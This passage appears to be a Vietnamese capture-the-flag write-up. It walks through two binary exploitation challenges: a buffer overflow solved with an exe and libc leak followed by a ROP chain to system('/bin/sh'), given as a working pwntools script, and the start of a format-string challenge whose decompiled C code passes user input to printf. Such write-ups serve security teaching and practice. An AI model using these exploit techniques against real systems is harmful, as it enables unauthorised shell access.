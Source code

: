- ngoài ra cũng có 1 hàm đạc biệt chứa các gadget 

![image](https://hackmd.io/_uploads/H1ptzxDZge.png)


- ý tưởng rất rõ ràng , trước hết ta sẽ tận dụng `bof` đầu tiên để leak exe , tiếp theo ta sẽ dùng các gadget ở hình nên , lúc này `rsi` là địa chỉ stack -> sử dụng gadget để đưa nó vào và gọi `puts` nếu may mắn ta sẽ có `libc` , hoặc dùng `fsb` và gọi `printf` cũng được

- có exe và libc rồi thì lấy shell ^^

```python
def exploit():
    yap = p8(0xC0)
    yap1 = p8(0x7D)
    input()
    sa(b"...", b"a" * 256 + p64(0) + yap1)
    p.recvline()
    exe.address = int(p.recvline()[:-1], 16) - exe.sym.play
    info(f"exe: {hex(exe.address)}")
    sa(
        b"...",
        b"a" * 264
        + p64(exe.address + 0x0000000000001240)
        + p64(0x00000000000012B3 + exe.address),
    )
    p.recvline()
    p.recv(0x40)
    libc.address = u64(p.recv(6).ljust(8, b"\x00")) - 0x93965
    logbase()
    pl = (
        b"a" * 264
        + p64(0x000000000010F75B + libc.address)
        + p64(next(libc.search(b"/bin/sh\x00")))
        + p64(libc.sym.system)
    )
    sa(b"...", pl)
    p.interactive()
```

## goat

- bài này là 1 bài `fsb` bình thường thôi , không có gì đặc biệt , điều quan trọng là cần tạo `loop` vì payload chỉ có 32 byte -> không đủ write 1 lần nhiều 

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  _QWORD v4[2]; // [rsp+0h] [rbp-C0h] BYREF
  char s1[64]; // [rsp+10h] [rbp-B0h] BYREF
  char s[104]; // [rsp+50h] [rbp-70h] BYREF
  unsigned __int64 v7; // [rsp+B8h] [rbp-8h]

  v7 = __readfsqword(0x28u);
  v4[0] = 1413566279;
  v4[1] = 0;
  snprintf(
    s,
    0x5Fu,
    "Welcome to the %s simulator!\nLet's see if you're the %s...\nWhat's your name? ",
    (const char *)v4,
    (const char *)v4);
  printf(s);
  fgets(s1, 32, stdin);
  snprintf(s, 0x5Fu, "Are you sure? You said:\n%s\n", s1);
  printf(s);
```